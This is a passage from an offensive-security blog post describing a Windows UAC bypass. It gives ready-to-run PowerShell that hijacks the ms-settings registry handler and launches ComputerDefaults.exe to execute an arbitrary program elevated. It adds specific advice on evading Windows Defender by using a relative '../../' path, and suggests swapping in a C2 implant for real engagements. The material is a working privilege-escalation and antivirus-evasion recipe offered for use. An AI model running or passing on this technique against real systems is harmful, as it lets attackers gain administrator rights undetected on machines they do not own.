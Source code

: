 As always, full source code can be found in my github repo:

[Source Code](https://github.com/g3tsyst3m/CodefromBlog/tree/main/2024-10-16-Creative%20UAC%20Bypass%20Methods%20for%20the%20Modern%20Era/CSMTP%20COM%20interface%20UAC%20Bypass)

***UAC Bypass #2 - Revisiting an old technique! (Detection Status: Undetected via Windows Defender)***
-

We're going to be revisiting a tried and true UAC Bypass method that still works just fine as of writing this post, 3/20/2025.  (Microsoft if you're reading this I'm on to you!)  I thought to myself,"Windows Defender can't be blocking all these classic UAC bypass methods."  Sure enough, their filters aren't that impressive.  We're going to be working with the `ComputerDefaults.exe` executable in the `C:\Windows\System32` directory.  Here's how it works:

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "[yourexecutable or command]" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

This parameter is what Windows Defender scrutinizes the most: `-Value "[yourexecutable or command]"`

If you do: `-Value "notepad"`, Defender is super chill and loves you.  

If you do: `-Value "cmd"`...

![image](https://github.com/user-attachments/assets/708e3c65-cbe9-48dd-bd80-f032d4cb840d)

How about: `-Value "C:\Users\Public\something.exe"`...

![image](https://i.ytimg.com/vi/3CqCq5RtrJo/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLAqFuuJ8vitOjfCsrPgPFKUxxhiYQ)

So...What if we do.... `-Value "../../myfolder/barney.exe"`

![image](https://github.com/user-attachments/assets/a10b248b-f5af-424b-a042-f8ba2439201a)

![image](https://media0.giphy.com/media/5y8sRBYSWWb16/giphy.gif?cid=6c09b9522xxdays2x4v6zjs6o5y3oejjfsd40rac1du7g9j4&ep=v1_gifs_search&rid=giphy.gif&ct=g)

It's as simple as that my friends.  Don't include Drive letters, Don't include popular payload locations like `c:\users\public` and `c:\temp`.  Just go with the old school ..\\..\\ routine and avoid all that altogether and convince Defender that you are in the right.  Right?! 😸

Also I should mention, the ../../ goes from c:\windows\system32 -> c:\ root directory.  Just create a folder of your choosing and place your .exe in it.

All that's left now is to issue the final statement: 

`Start-Process "C:\Windows\System32\ComputerDefaults.exe"` and we're off to the races!  Your .exe file you placed in the `Value` parameter will be executed without Defender yelling at you.

I should probably also show you what I did as far as my payload goes.  I kept it really simple.  `barney.exe` is just a simple C++ loader.  This is for demo purposes of course.  In a realistic pentest scenario, you'd be substituting your actual C2 implant in the `Value` field:

